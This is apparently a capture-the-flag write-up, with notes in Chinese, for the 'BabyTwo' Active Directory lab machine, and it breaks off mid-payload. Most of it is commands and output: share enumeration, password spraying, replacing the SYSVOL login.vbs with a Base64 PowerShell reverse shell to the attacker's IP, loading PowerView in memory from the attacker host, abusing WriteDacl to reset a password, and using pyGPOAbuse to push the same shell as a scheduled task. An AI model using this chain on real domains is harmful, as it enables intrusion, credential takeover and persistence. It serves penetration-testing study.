





## BabyTwo
### 总结
```
[★]$ nxc smb baby2.vl -u 'guest' -p '' --shares
[★]$ smbclient -U 'guest%' '//baby2.vl/homes' //名单
[★]$ awk '{print $1}' users.txt | grep '\.' > tmp.txt && mv tmp.txt users.txt
[★]$ nxc smb 10.129.234.72 -u users.txt -p users.txt --no-bruteforce --continue-on-success
[★]$ nxc smb 10.129.234.72 -u Carl.Moore -p Carl.Moore --shares
SMB         10.129.234.72   445    DC               SYSVOL          READ            Logon server share
[★]$ smbclient -U 'Carl.Moore%Carl.Moore' '//baby2.vl/SYSVOL'
smb: \baby2.vl\scripts\> get login.vbs

//使用工具 revshells.com; 选择PowerShell #3(Base64);Base64 编码的 UTF-16LE PowerShell 脚本
[★]$ vi login.vbs
</SNIP>    
    Set objNetwork = Nothing
End Sub

CreateObject("WScript.Shell").Run "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgA3ACIALAA5ADAAOQAwACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==", 0, True

[★]$ smbclient -U 'Carl.Moore%Carl.Moore' '//baby2.vl/SYSVOL'
Try "help" to get a list of possible commands.
smb: \> cd \baby2.vl\scripts\
smb: \baby2.vl\scripts\> del login.vbs
smb: \baby2.vl\scripts\> put login.vbs

//当用户登录域时，系统会自动执行：\\baby2.vl\SYSVOL\baby2.vl\scripts\login.vbs
[★]$ nc -lvnp 9090
PS C:\Windows\system32> cat ..\..\user.txt

$ bloodhound
//从 Windows 中滥用“写 DACL”访问控制列表:(WriteDacl 使用PowerView.ps1 )
//Amelia Griffiths -> MemberOf -> LEGACY@BABY2.VL -> WriteDacl -> GPOADM@BABY2.VL,GPO-MANAGEMENT@BABY2.VL
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

[★]$ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1

PS C:\Users\amelia.griffiths> iex (iwr -usebasicparsing http://10.10.14.27:8011/PowerView.ps1)
PS C:\Users\amelia.griffiths> add-domainobjectacl -rights "all" -targetidentity "gpoadm" -principalidentity "Amelia.Griffiths" //Amelia → GenericAll → gpoadm
PS C:\Users\amelia.griffiths> $cred = ConvertTo-SecureString 'Password123!' -AsPlainText -Force //我确认要用明文密码，强制执行（-AsPlainText -Force）
PS C:\Users\amelia.griffiths> set-domainuserpassword gpoadm -accountpassword $cred //Set-DomainUserPassword 修改用户密码；-accountpassword 新密码

[★]$ nxc smb 10.129.234.72 -u gpoadm -p 'Password123!'
SMB         10.129.234.72   445    DC               [+] baby2.vl\gpoadm:Password123!

// 通过组策略对象来滥用通用所有访问控制列表（GenericAll ACL），请使用 pyGPOAbuse。
// GPOADM@BABY2.VL -> GenericAll -> 蓝色文档方块 2个
// GPOADM@BABY2.VL -> Contains -> GPO-MANAGEMENT@BABY2.VL -> Contains -> BABY2.VL -> GPLink -> 蓝色文档方块(GPO Fine Path: \\BABY2.VL\SYSVOL\BABY2.VL\POLICIES\{31B2340-016D-11D2-945F-00C04FB984F9}
https://github.com/Hackndo/pyGPOAbuse

[~/pyGPOAbuse][★]$ python3 pygpoabuse.py baby2.vl/gpoadm:'Password123!' -command "Powershell -exec bypass -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgA3ACIALAA5ADAAOQAwACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==" -dc-ip 10.129.234.72 -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9"
SUCCESS:root:ScheduledTask TASK_60e9109b created!
[+] ScheduledTask TASK_60e9109b created!
//侦听nc
PS C:\Users\amelia.griffiths> gpupdate
```
```
ACL	含义
GenericAll	完全控制对象
WriteDacl	可以修改对象的 ACL
GPLink	可以链接 GPO
Contains	容器关系

iwr= Invoke-WebRequest;从你的攻击机下载
iex= Invoke-Expression;直接 在内存执行脚本
```
``` 
[★]$ ports=$(nmap -p- --min-rate=1000 -Pn -T4 10.129.234.72 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
[★]$ nmap -p$ports -Pn -sC -sV 10.129.234.72
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-06 01:43 CST
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 45.45% done; ETC: 01:43 (0:00:00 remaining)
Nmap scan report for 10.129.234.72
Host is up (0.30s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-06 07:43:54Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.baby2.vl, DNS:baby2.vl, DNS:BABY2
| Not valid before: 2025-08-19T14:22:11
|_Not valid after:  2105-08-19T14:22:11
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.baby2.vl, DNS:baby2.vl, DNS:BABY2
| Not valid before: 2025-08-19T14:22:11
|_Not valid after:  2105-08-19T14:22:11
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.baby2.vl, DNS:baby2.vl, DNS:BABY2
| Not valid before: 2025-08-19T14:22:11
|_Not valid after:  2105-08-19T14:22:11
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: baby2.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.baby2.vl, DNS:baby2.vl, DNS:BABY2
| Not valid before: 2025-08-19T14:22:11
|_Not valid after:  2105-08-19T14:22:11
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-03-06T07:45:26+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: BABY2
|   NetBIOS_Domain_Name: BABY2
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: baby2.vl
|   DNS_Computer_Name: dc.baby2.vl
|   DNS_Tree_Name: baby2.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-06T07:44:48+00:00
| ssl-cert: Subject: commonName=dc.baby2.vl
| Not valid before: 2026-03-05T07:04:10
|_Not valid after:  2026-09-04T07:04:10
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49397/tcp open  msrpc         Microsoft Windows RPC
49433/tcp open  msrpc         Microsoft Windows RPC
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
60357/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-03-06T07:44:50
|_  start_date: N/A

```
```
[★]$ echo '10.129.234.72 baby2.vl dc.baby2.vl' | sudo tee -a /etc/hosts
10.129.234.72 baby2.vl dc.baby2.vl
```
```
[★]$ nxc smb baby2.vl -u 'guest' -p '' --shares
SMB         10.129.234.72   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.72   445    DC               [+] baby2.vl\guest: 
SMB         10.129.234.72   445    DC               [*] Enumerated shares
SMB         10.129.234.72   445    DC               Share           Permissions     Remark
SMB         10.129.234.72   445    DC               -----           -----------     ------
SMB         10.129.234.72   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.72   445    DC               apps            READ     
SMB         10.129.234.72   445    DC               C$                              Default share
SMB         10.129.234.72   445    DC               docs                     
SMB         10.129.234.72   445    DC               homes           READ,WRITE
SMB         10.129.234.72   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.72   445    DC               NETLOGON        READ            Logon server share
SMB         10.129.234.72   445    DC               SYSVOL                          Logon server share
[★]$ smbclient -U 'guest%' '//baby2.vl/homes'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar  6 01:47:29 2026
  ..                                  D        0  Tue Aug 22 15:10:21 2023
  Amelia.Griffiths                    D        0  Tue Aug 22 15:17:06 2023
  Carl.Moore                          D        0  Tue Aug 22 15:17:06 2023
  Harry.Shaw                          D        0  Tue Aug 22 15:17:06 2023
  Joan.Jennings                       D        0  Tue Aug 22 15:17:06 2023
  Joel.Hurst                          D        0  Tue Aug 22 15:17:06 2023
  Kieran.Mitchell                     D        0  Tue Aug 22 15:17:06 2023
  library                             D        0  Tue Aug 22 15:22:47 2023
  Lynda.Bailey                        D        0  Tue Aug 22 15:17:06 2023
  Mohammed.Harris                     D        0  Tue Aug 22 15:17:06 2023
  Nicola.Lamb                         D        0  Tue Aug 22 15:17:06 2023
  Ryan.Jenkins                        D        0  Tue Aug 22 15:17:06 2023

		6126847 blocks of size 4096. 1962101 blocks available
smb: \> exit
[★]$ vi users.txt
[★]$ grep -oP '^\s*\K[A-Za-z]+\.[A-Za-z]+' users.txt
Amelia.Griffiths
Carl.Moore
Harry.Shaw
Joan.Jennings
Joel.Hurst
Kieran.Mitchell
Lynda.Bailey
Mohammed.Harris
Nicola.Lamb
Ryan.Jenkins

[★]$ awk '{print $1}' users.txt | grep '\.' > tmp.txt && mv tmp.txt users.txt
[★]$ cat users.txt
Amelia.Griffiths
Carl.Moore
Harry.Shaw
Joan.Jennings
Joel.Hurst
Kieran.Mitchell
library 
Lynda.Bailey
Mohammed.Harris
Nicola.Lamb
Ryan.Jenkins
```
### Foothold
```
[★]$ nxc smb 10.129.234.72 -u users.txt -p users.txt --no-bruteforce --continue-on-success
SMB         10.129.234.72   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.72   445    DC               [-] baby2.vl\Amelia.Griffiths:Amelia.Griffiths STATUS_LOGON_FAILURE
SMB         10.129.234.72   445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore
SMB         10.129.234.72   445    DC               [-] baby2.vl\Harry.Shaw:Harry.Shaw STATUS_LOGON_FAILURE
SMB         10.129.234.72   445    DC               [-] baby2.vl\Joan.Jennings:Joan.Jennings STATUS_LOGON_FAILURE
SMB         10.129.234.72   445    DC               [-] baby2.vl\Joel.Hurst:Joel.Hurst STATUS_LOGON_FAILURE
SMB         10.129.234.72   445    DC               [-] baby2.vl\Kieran.Mitchell:Kieran.Mitchell STATUS_LOGON_FAILURE
SMB         10.129.234.72   445    DC               [+] baby2.vl\library:library
SMB         10.129.234.72   445    DC               [-] baby2.vl\Lynda.Bailey:Lynda.Bailey STATUS_LOGON_FAILURE
SMB         10.129.234.72   445    DC               [-] baby2.vl\Mohammed.Harris:Mohammed.Harris STATUS_LOGON_FAILURE
SMB         10.129.234.72   445    DC               [-] baby2.vl\Nicola.Lamb:Nicola.Lamb STATUS_LOGON_FAILURE
SMB         10.129.234.72   445    DC               [-] baby2.vl\Ryan.Jenkins:Ryan.Jenkins STATUS_LOGON_FAILURE

```
```
[★]$ nxc smb 10.129.234.72 -u Carl.Moore -p Carl.Moore --shares
SMB         10.129.234.72   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.72   445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore
SMB         10.129.234.72   445    DC               [*] Enumerated shares
SMB         10.129.234.72   445    DC               Share           Permissions     Remark
SMB         10.129.234.72   445    DC               -----           -----------     ------
SMB         10.129.234.72   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.72   445    DC               apps            READ,WRITE
SMB         10.129.234.72   445    DC               C$                              Default share
SMB         10.129.234.72   445    DC               docs            READ,WRITE
SMB         10.129.234.72   445    DC               homes           READ,WRITE
SMB         10.129.234.72   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.72   445    DC               NETLOGON        READ            Logon server share
SMB         10.129.234.72   445    DC               SYSVOL          READ            Logon server share
```
```
[★]$ smbclient -U 'Carl.Moore%Carl.Moore' '//baby2.vl/docs'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar  6 02:22:22 2026
  ..                                  D        0  Tue Aug 22 15:10:21 2023

		6126847 blocks of size 4096. 1959900 blocks available
smb: \> exit
```
```
[★]$ smbclient -U 'Carl.Moore%Carl.Moore' '//baby2.vl/SYSVOL'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Aug 22 12:37:36 2023
  ..                                  D        0  Tue Aug 22 12:37:36 2023
  baby2.vl                           Dr        0  Tue Aug 22 12:37:36 2023

		6126847 blocks of size 4096. 1959553 blocks available
smb: \> cd baby2.vl
smb: \baby2.vl\> ls
  .                                   D        0  Tue Aug 22 12:43:55 2023
  ..                                  D        0  Tue Aug 22 12:37:36 2023
  DfsrPrivate                      DHSr        0  Tue Aug 22 12:43:55 2023
  Policies                            D        0  Tue Aug 22 12:37:41 2023
  scripts                             D        0  Mon Aug 25 03:30:39 2025

		6126847 blocks of size 4096. 1959553 blocks available
smb: \baby2.vl\> cd scripts
smb: \baby2.vl\scripts\> ls
  .                                   D        0  Mon Aug 25 03:30:39 2025
  ..                                  D        0  Tue Aug 22 12:43:55 2023
  login.vbs                           A      992  Sat Sep  2 09:55:51 2023

		6126847 blocks of size 4096. 1959551 blocks available
smb: \baby2.vl\scripts\> get login.vbs
getting file \baby2.vl\scripts\login.vbs of size 992 as login.vbs (0.8 KiloBytes/sec) (average 0.8 KiloBytes/sec)
smb: \baby2.vl\scripts\> exit
```
```
[★]$ cat login.vbs
Sub MapNetworkShare(sharePath, driveLetter)
    Dim objNetwork
    Set objNetwork = CreateObject("WScript.Network")    
  
    ' Check if the drive is already mapped
    Dim mappedDrives
    Set mappedDrives = objNetwork.EnumNetworkDrives
    Dim isMapped
    isMapped = False
    For i = 0 To mappedDrives.Count - 1 Step 2
        If UCase(mappedDrives.Item(i)) = UCase(driveLetter & ":") Then
            isMapped = True
            Exit For
        End If
    Next
    
    If isMapped Then
        objNetwork.RemoveNetworkDrive driveLetter & ":", True, True
    End If
    
    objNetwork.MapNetworkDrive driveLetter & ":", sharePath
    
    If Err.Number = 0 Then
        WScript.Echo "Mapped " & driveLetter & ": to " & sharePath
    Else
        WScript.Echo "Failed to map " & driveLetter & ": " & Err.Description
    End If
    
    Set objNetwork = Nothing
End Sub

MapNetworkShare "\\dc.baby2.vl\apps", "V"
MapNetworkShare "\\dc.baby2.vl\docs", "L"
```
#### 使用工具 revshells.com
#### 选择PowerShell #3(Base64)

#### Base64 编码的 UTF-16LE PowerShell 脚本
```
[★]$ vi login.vbs
</SNIP>    
    Set objNetwork = Nothing
End Sub

CreateObject("WScript.Shell").Run "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgA3ACIALAA5ADAAOQAwACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAI